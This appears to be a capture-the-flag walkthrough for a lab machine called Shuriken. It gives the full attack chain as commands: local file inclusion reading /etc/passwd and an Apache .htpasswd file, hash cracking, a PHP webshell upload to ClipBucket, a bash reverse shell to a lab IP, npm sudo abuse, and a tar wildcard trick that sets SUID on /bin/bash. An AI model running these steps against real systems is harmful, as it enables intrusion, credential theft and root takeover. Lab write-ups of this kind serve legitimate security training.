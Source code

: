 Skills:

- Web Enumeration
- JS Code Inspection
- Information Leakage
- Local File Inclusion (LFI + Base64 Wrapper)
- Virtual Hosting
- Subdomain Enumeration
- Abusing LFI - Reading Apache config files
- Cracking Hashes
- ClipBucket v4.0 Exploitation - Malicious PHP File Upload
- Abusing sudoers privilege (npm) [User Migration]
- Process Monitoring - PSPY
- Abusing Cron Job - Analyzing Bash script
- Abusing Wildcards (tar command) [Privilege Escalation]


Only port 80 is open, checking the website we found a login panel

```bash
http://192.168.0.103/login.html
```

WE found two .js files

```bash
http://192.168.0.103/js
#use beatifier.io to view the js code
https://beautifier.io
```

We found a domain name, so I save it in my hosts file ( broadcast.shuriken.local - shuriken.local)
Checking the broadcast.shuriken.local , the site is asking for sign in.
In one of the js files we found a URL with a parameter "referer=" , what makes me think in a Local File INclusion vulnerability
```bash
>curl -s http://shuriken.local/index.php?referer=/etc/passwd
# server apache, search for config files
>curl -s http://shuriken.local/index.php?referer=/etc/apache2/sites-enabled/000-default.conf
>curl -s http://shuriken.local/index.php?referer=/etc/apache2/.htpasswd --> found credentials
#crack the hash
>john --wordlist=rockyou hash
```

With these credentials we can acces to the broadcast.shuriken.local site
It's a clipbucket application --> video hosting
Use searchsploit to find vulnerabilities

```bash
>searchsploit clipbucket --> Command injection, file upload, sql injection
#remote code execution abusing the file upload
>curl -F "file=@cmd.php" -F "plupload=1" -F "name=cmd.php" http://developers:9972761drmfsls@broadcast.shuriken.local/actions/photo_uploader.php
#find the upload directory using gobuster
>gobuster dir -u http://developers:9972761drmfsls@broadcast.shuriken.local/ -w /usr/share/seclist
>http://broadcast.shuriken.local/files/photos....php?cmd=whoami  --> remote command execution
#gain a reverse shell
>nc -nlvp 1234
>http://broadcast.shuriken.local/files/photos....php?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.0.100/1234 0>%261"
```

In this way we gain access to the system, no we need to escalate privileges
```bash
>sudo -l --> we can execute as the server-management user the npm binary --> user migration
>gtfobins npm --> chmod 777 -R /tmp/tmp.pr2
# Now as the server-management
>find /-perm -4000 2>/dev/null --> nothing
#use pspy to find a task that execute something in time intervals | curl http:/192.168.0.100/pspy -o pspy
>./pspy --> the user root execute a bash script
>cat /var/opt/backupsrv.sh --> It's a backup script, we can abuse this. Abusing Wildcards (tar command) 
>touch -- --checkpoint=1
>touch -- --checkpoint-action=exec='sh command'
>touch command
>chmod +x command
>nano command --> #!/bin/bash chmod u+s /bin/bash
>bash -p
```







